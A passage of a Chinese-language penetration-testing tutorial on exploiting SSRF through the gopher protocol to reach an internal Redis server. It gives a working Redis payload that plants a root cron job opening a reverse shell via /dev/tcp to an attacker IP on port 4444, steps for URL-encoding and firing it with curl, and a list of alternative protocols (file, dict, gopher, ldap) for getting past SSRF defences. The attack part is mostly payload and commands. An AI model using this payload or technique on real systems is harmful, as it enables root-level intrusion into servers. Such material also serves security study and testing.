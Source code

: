 #### 

比如存在ssrf的漏洞地址为：`http://192.168.1.11/ssrf.php?url=`

结合gother协议构造符合格式的paylod，从而模拟redis通信

```bash
http://192.168.1.11/ssrf.php?url=gother://127.0.0.1:6379/_payload
#转换为：
http://192.168.1.11/ssrf.php?url=gopher%3a%2f%2f127.0.0.1%3a6379%2f_payload
```

payload如下：

```bash
## 这里使用利用redis写计划任务任务来反弹shell的利用方式
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.11.12/4444 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save

```

将以上命令构造成符合gopher协议格式，且能够通过URL传输的格式来发送，需要经过如下**步骤**：

1.将payload进行url编码

2.替换`%0a`为`%0d%0a`

3.然后再重复一次以上的两个步骤

> 原因：替换回车换行为%0d%0a，空格以%20替换, HTTP包最后加%0d%0a`代表消息结束

4.将得到的结果，替代`http://192.168.1.11/ssrf.php?url=gopher%3a%2f%2f127.0.0.1%3a6379%2f_payload`里面payload的位置得到



5.然后直接在浏览器中访问，或者在kaili中执行

```bash
curl 完整的payload
```



然后就可以在攻击机上获得反弹的shell



> 注意，以上利用方式，如果是ubuntu的系统，是无法成功的







## SSRF漏洞防御绕过



#### 1.利用各种其他协议

```bash
file:///     file protocol (任意文件读取)     

Dict://     
dict://<user-auth>@<host>:<port>/d:<word>      

SFTP://Sftp代表SSH文件传输协议（SSH File Transfer Protocol）或安全文件传输协议（Secure File Transfer Protocol）     

TFTP://   

LDAP:// 或ldaps:// 或ldapi://      

Gopher
```
